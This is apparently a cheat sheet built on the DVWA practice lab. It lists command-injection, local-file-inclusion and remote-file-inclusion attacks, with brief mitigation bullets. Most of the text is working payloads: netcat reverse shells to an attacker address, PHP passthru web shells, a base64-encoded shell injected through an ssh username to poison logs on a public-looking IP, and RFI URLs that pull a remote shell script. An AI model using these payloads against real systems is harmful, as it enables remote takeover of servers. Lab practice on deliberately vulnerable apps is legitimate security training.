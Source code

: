 **Based on DVWA Command Execution**
**Exploiting basic code execution**
```cmd
nc -vv -l -p 8080
# for low
ip_for_ping; nc -e /bin/sh attacker_ip 8080
# for medium
ip_for_ping | nc -e /bin/sh attacker_ip 8080
```
**Mitigation code execution**
> Don't use dengerous functions.
> Filter user input before execution.


**Shell from Local File Inclusion**
> Try to inject code into readable files
> /proc/self/environ
> /var/log/auth.log
> /var/log/apache2/access.log

```cmd
#in attack mechine
nc -vv -l -p 8888

#inject in site
<?passthru("nc -e /bin/sh attacker_ip 8888")?>
#base64_encode nc -e /bin/sh attacker_ip 8888 = bmMgLWUgL2Jpbi9zaCAxOTIuMTk2LjMwLjIxMiA4ODg4

ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9zaCAxOTIuMTk2LjMwLjIxMiA4ODg4'));?>"@45.114.84.185
```


**Remote File Inclusion**
```cmd
#If allow_url_fopen = On in php.ini
<?php
passthru("nc -e /bin/sh attacker_ip 8888");
?>
#save to a domain or real ip as reverse.txt.

#listen in attack mechine
nc -vv -l -p 8888 

#hit in vulnerable mechine
10.20.14.204/dvwa/vulnerabilities/fi/?page=http://domain_or_real_ip/reverse.txt?

#another
10.20.14.204/dvwa/vulnerabilities/fi/?page=hTTp://domain_or_real_ip/reverse.txt?
```

**Mitigation File Inclusion**
> Prevent remote file inclusion
> > Disable allow_url_fopen
> > Disable allow_url_include

> Prevent local file inclusion
> > Use static file inclusion